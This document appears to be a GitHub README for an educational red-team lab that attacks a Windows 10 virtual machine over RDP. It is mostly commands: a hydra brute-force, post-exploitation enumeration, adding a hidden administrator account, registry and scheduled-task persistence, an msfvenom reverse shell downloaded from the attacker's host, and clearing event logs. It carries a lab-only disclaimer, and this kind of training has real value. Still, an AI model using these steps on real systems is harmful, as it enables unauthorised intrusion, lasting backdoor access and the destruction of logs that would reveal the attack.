 Advanced RDP Red Teaming Lab

Disclaimer

> This project is for educational purposes only. All activities were conducted in a safe, isolated lab environment using virtual machines I own. Do not attempt this on any system you do not have explicit permission to test.




---

Table of Contents

Objective

Lab Setup

Recon & Scanning

RDP Brute-Force

Python Script

Access & Post-Exploitation

Privilege Escalation

Persistence

Backdoor Shell

Lateral Movement

Clean-Up

Reporting



---

Objective

Simulate a real-world red team operation by brute-forcing weak RDP credentials, then performing post-exploitation, persistence, and potential lateral movement on the compromised host.


---

Lab Setup

-attacker: kali linux

tools :hydra,nmap,xfreerdp,python

-victim:windows 10,

tools:RDP enabled,weak password 

-Network: Host only,isolated,no internet.

---

Recon & Scanning

Scan RDP port with Nmap:

nmap -p 3389 <target_ip>


---

RDP Brute-Force

Use hydra:

hydra -t 8 -V -l Administrator -P shortlist.txt rdp://<target_ip>

Or use the Python script below.


---

Python Script

Run with:

python3 rdp_bruteforce.py


---

Access & Post-Exploitation

xfreerdp /u:Administrator /p:<password> /v:<target_ip> /cert:ignore

Inside RDP Session:

whoami
hostname
ipconfig /all
systeminfo
dir /s /b C:\\Users\\*.txt


---

Privilege Escalation

Check permissions:

whoami /groups

Run WinPEAS/SharpUp for local exploits (upload via RDP).

winPEAS.exe quiet cmd fast

 Look for:

AlwaysInstallElevated

Unquoted service paths

Weak service permissions



---

Persistence

Add hidden admin user:

net user sysadmin P@ssw0rd123 /add
net localgroup administrators sysadmin /add

Registry-based persistence:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v updater /t REG_SZ /d "C:\\rev.exe"

Scheduled Task:

schtasks /create /tn "Updater" /tr "C:\\rev.exe" /sc onlogon


---

Backdoor Shell

Generate backdoor:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=4444 -f exe -o rev.exe
python3 -m http.server 80

Download in RDP:

powershell -c "Invoke-WebRequest -Uri http://<kali_ip>/rev.exe -OutFile C:\\rev.exe"

Execute & catch:

nc -lvnp 4444


---

Lateral Movement

net view /domain
net view \\<hostname>

Reuse dumped credentials to access other machines if available.


---

Clean-Up

Clear logs (not recommended unless simulating attacker evasion):

wevtutil cl Security
wevtutil cl System

Delete backdoors, users, and payloads.


---

Reporting

Document:

Entry vector

Credentials cracked

Privilege escalation method

Persistence mechanism

Tools/scripts used

Detection logs

Mitigation recommendations





